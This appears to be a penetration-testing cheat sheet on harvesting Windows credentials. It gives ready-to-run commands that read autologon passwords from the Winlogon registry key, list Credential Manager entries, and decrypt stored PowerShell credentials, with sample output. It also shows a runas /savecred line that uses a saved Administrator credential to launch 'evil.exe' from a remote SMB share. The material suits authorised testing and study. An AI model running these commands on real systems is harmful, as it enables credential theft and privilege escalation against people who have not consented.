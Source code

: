 
# Windows Credentials
## Winlogon Credentials

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr /i "DefaultDomainName DefaultUserName DefaultPassword AltDefaultDomainName AltDefaultUserName AltDefaultPassword LastUsedUsername"

# Misc
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultDomainName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AltDefaultDomainName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AltDefaultUserName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AltDefaultPassword
```

## Credentials manager / Windows vault

The Windows Vault stores user credentials for servers, websites and other programs that **Windows** can **log in the users automaticall**y. 

Windows Vault stores credentials that Windows can log in the users automatically, which means that any **Windows application that needs credentials to access a resource** (server or a website) **can make use of this Credential Manager** & Windows Vault and use the credentials supplied instead of users entering the username and password all the time.

- List stored credentials
```
cmdkey /list
Currently stored credentials:
 Target: Domain:interactive=WORKGROUP\Administrator
 Type: Domain Password
 User: WORKGROUP\Administrator
```
- Then you can use `runas` with the `/savecred` options in order to use the saved credentials. The following example is calling a remote binary via an SMB share.
```
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
```

## PowerShell Credentials

```powershell
PS C:\> $credential = Import-Clixml -Path 'C:\pass.xml'
PS C:\> $credential.GetNetworkCredential().username

joe

PS C:\htb> $credential.GetNetworkCredential().password

PASSWORD1234!
```
